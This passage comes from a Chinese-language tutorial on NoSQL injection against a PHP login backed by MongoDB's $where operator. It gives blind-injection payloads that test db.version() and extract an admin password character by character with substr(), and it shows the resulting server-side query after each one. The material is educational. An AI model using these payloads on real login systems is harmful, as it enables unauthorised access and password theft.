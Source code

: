 ```php
        echo 'username: '.$user['username']."<br>";
        echo 'password: '.$user['password']."<br>";
    }
}
else{
    echo 'Login Failed';
}
?>
```

此时没有回显了，但我们可以通过 `$where` 操作符访问到全局属性 `db`，然后对这里面的数据进行盲注，比如：

```php
username='||db.version()[0]=='2'){return true;}else{return false;}if('&password=123456
```

发送 payload，进入 PHP 后的数据如下：

```php
array(
    '$where' => "
    function() {
        if(this.username == ''||db.version()[0]=='2'){
            return true;
        }else{
            return false;
        }
        if('' && this.password == '123456') {
            return true;
        }
    }
")
```

如果 `db.version()[0]=='2'` 匹配正确则返回 true，然后登录成功，反之返回 false ，登陆失败。我们根据这一布尔条件进行判断即可逐个注出数据。但是 MongoDB 2.4 之后我们便无法访问到 `db` 属性了。

初次之外，我们还可以通过 `substr` 方法将指定用户的密码匹配出来，比如我们知道存在一个 admin 用户，那么我们可以将这个 admin 用户的密码匹配出来：

```php
username=admin'%26%26this.password.substr(-1)=='6') {return true;}})//&password=1
username=admin'%26%26this.password.substr(-2)=='56') {return true;}})//&password=1
username=admin'%26%26this.password.substr(-3)=='456') {return true;}})//&password=1
username=admin'%26%26this.password.substr(-4)=='3456') {return true;}})//&password=1
username=admin'%26%26this.password.substr(-5)=='23456') {return true;}})//&password=1
username=admin'%26%26this.password.substr(-6)=='123456') {return true;}})//&password=1
# 最后得到密码为 123456
```

![img](https://p2.ssl.qhimg.com/t01a28abf6703056747.png)

发送 payload 后进入 PHP 的数据如下：

```php
array(
    '$where' => "
    function() {
        if(this.username == 'admin' && this.password.substr(-1)=='6') {
            return true;
        }}//' && this.password == '123456') {return true;}
    }
")
```
